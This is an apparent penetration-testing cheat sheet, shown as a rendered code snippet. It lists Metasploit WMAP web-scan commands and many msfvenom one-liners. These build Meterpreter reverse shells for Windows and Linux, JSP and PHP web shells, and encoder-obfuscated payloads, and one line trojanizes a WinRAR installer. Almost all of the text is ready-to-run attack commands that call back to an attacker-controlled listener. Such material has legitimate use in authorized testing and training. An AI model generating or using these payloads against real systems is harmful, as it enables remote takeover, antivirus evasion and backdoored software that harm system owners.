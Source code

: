 
```bash
# WMAP in msfconsole
load wmap
wmap_sites -a <TARGET_IP>
wmap_sites -l
wmap_targets -t <URL>
wmap_targets -l

wmap_run -t
wmap_run -e
wmap_vulns -l

# msfconsole
use auxiliary/scanner/http/http_put
```

### Payloads

#### MSFVenom shells

```bash
msfvenom --list payloads
msfvenom --list formats
msfvenom --list encoders

# Win 32bit
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f exe > <PAYLOAD_FILE_x86>.exe

# Win 64bit
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f exe > <PAYLOAD_FILE_x64>.exe

# Linux 32bit
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f elf > <PAYLOAD_FILE_x86>

# Linux 64bit
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f elf > <PAYLOAD_FILE_x64>

# Win 32bit + shikata_ga_nai encoded
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -e x86/shikata_ga_nai -f exe > <PAYLOAD_ENCODED_x86>.exe

# Use more encoding iterations
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -i 10 -e x86/shikata_ga_nai -f exe > <PAYLOAD_ENCODED_x86>.exe

# Linux 32bit + shikata_ga_nai encoded
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -i 10 -e x86/shikata_ga_nai -f elf > <PAYLOAD_ENCODED_x86>

# Inject into Portable Executables
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -e x86/shikata_ga_nai -i 10 -f exe -x winrar-x32-621.exe > winrar.exe

# JSP Java Meterpreter Reverse TCP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp #TomCat content management system 

# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php\                   #PHP Web Application
```